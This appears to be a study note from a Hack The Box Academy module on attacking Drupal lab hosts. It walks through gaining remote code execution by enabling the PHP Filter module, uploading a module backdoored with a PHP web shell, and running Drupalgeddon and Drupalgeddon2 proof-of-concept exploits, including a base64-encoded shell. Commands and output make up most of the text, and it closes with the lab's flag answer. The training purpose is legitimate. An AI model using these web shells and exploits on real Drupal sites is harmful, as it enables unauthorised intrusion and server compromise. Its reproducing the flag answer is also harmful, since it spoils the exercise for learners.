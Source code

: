 ```yaml
---
description: >-
  Obtaining a shell on a Drupal host via the admin console is not as easy as
  just editing a PHP file found within a theme or uploading a malicious PHP
  script.
---
```


# Attacking Drupal

###

## Leveraging the PHP Filter Module

* Drupal <mark style="color:red;">**older than**</mark> <mark style="color:red;">**version 8**</mark> could log in as admin and enable PHP filter which allows us to embed PHP code/snippets to be evaluated

<figure><img src="https://academy.hackthebox.com/storage/modules/113/drupal_php_module.png" alt=""><figcaption><p>http://drupal-qa.inlanefreight.local/#overlay=admin/modules</p></figcaption></figure>

tick the check box next to the module and scroll down to `Save configuration`.

Then, go to Content -> Add content -> create a `Basic page`.

* We can now create a page with a malicious PHP snippet

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/113/basic_page_shell_7v2.png" alt=""><figcaption><p>http://drupal-qa.inlanefreight.local/#overlay=node/add/page</p></figcaption></figure>

* make sure to set `Text format` drop-down to `PHP code`
* we will be redirected to the new page after save

```shell-session
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* For drupal <mark style="color:red;">**after version 8**</mark>, we would have to install the module ourselves.

Get the most recent version of the module from Drupal website

```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Once downloaded go to `Administration` > `Reports` > `Available updates`.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/install_module.png" alt=""><figcaption><p>Installing module</p></figcaption></figure>

click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.

Once installed, click Content > create new basic page and add the PHP snippet.

## Uploading a Backdoored Module

* users with appropriate permissions can upload a new module
* A backdoored module can be created by adding a shell to an existing module.
* Modules can be found on the drupal.org website.

The following example will be based on the captcha module

Download the archive and extract its contents.

```bash
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

create a .htaccess file to give ourselves access to the folder

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

* The configuration above will apply rules for the / folder

Copy both of these files to the captcha folder and create an archive.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/

captcha/
captcha/.travis.yml
captcha/README.md
captcha/captcha.api.php
captcha/captcha.inc
captcha/captcha.info.yml
captcha/captcha.install

<SNIP>
```

(If we have Administrative privilege)&#x20;

* click on `Manage` and then `Extend` on the sidebar.
* click on the `+ Install new module` button
* Browse to the backdoored Captcha archive and click `Install`.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/module_installed.png" alt=""><figcaption><p>http://drupal.inlanefreight.local/core/authorize.php</p></figcaption></figure>

Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands.

```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Leveraging Known Vulnerabilities

Drupal has 3 serious code execution vulnerabilities known as `Drupalgeddon`

* [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005) -> Drupalgeddon, affects **versions 7.0 up to 7.31** and was **fixed in version 7.32**. This was a **pre-authenticated SQL injection** flaw that could be used to upload a malicious form or create a new admin user.
* [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002) -> Drupalgeddon2, is a **remote code execution** vulnerability, which affects versions of Drupal prior to **7.58 and 8.5.1**. The vulnerability occurs due to insufficient input sanitization during user registration, **allowing system-level commands to be maliciously injected**.
* [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/) -> Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of **Drupal 7.x and 8.x**. This flaw **exploits improper validation in the Form API**.

### Drupalgeddon

Let's try **adding a new admin user** with this [PoC](https://www.exploit-db.com/exploits/34992) script. Once an admin user is added, we could log in and enable the `PHP Filter` module to achieve remote code execution.

```shell-session
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

<SNIP>

[!] VULNERABLE!

[!] Administrator user created!

[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node
```

<figure><img src="https://academy.hackthebox.com/storage/modules/113/drupalgeddon.png" alt=""><figcaption><p>We are now admin</p></figcaption></figure>

we could obtain a shell through the various means discussed previously

### Drupalgeddon2

We can use [this](https://www.exploit-db.com/exploits/44448) PoC to confirm this vulnerability.

```shell-session
python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt
```

check quickly with `cURL` and see that the `hello.txt` file was indeed uploaded.

```shell-session
curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)
```

modify the script to gain remote code execution by uploading a malicious PHP file.

```php
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K
```

```shell-session
 echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee exploit.php
```

Run the modified exploit script to upload our malicious PHP file.

```shell-session
python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/mrb3n.php
```

```shell-session
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Drupalgeddon3

\<The module teaches metasploite method>

## Assessment

Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory.

* Use Drupalgeddon 2 and modify the exploite by adding php shell payload.

```
curl http://drupal-dev.inlanefreight.local/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=cat%20../drupal.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt
DrUp@l_drUp@l_3veryWh3Re!
```







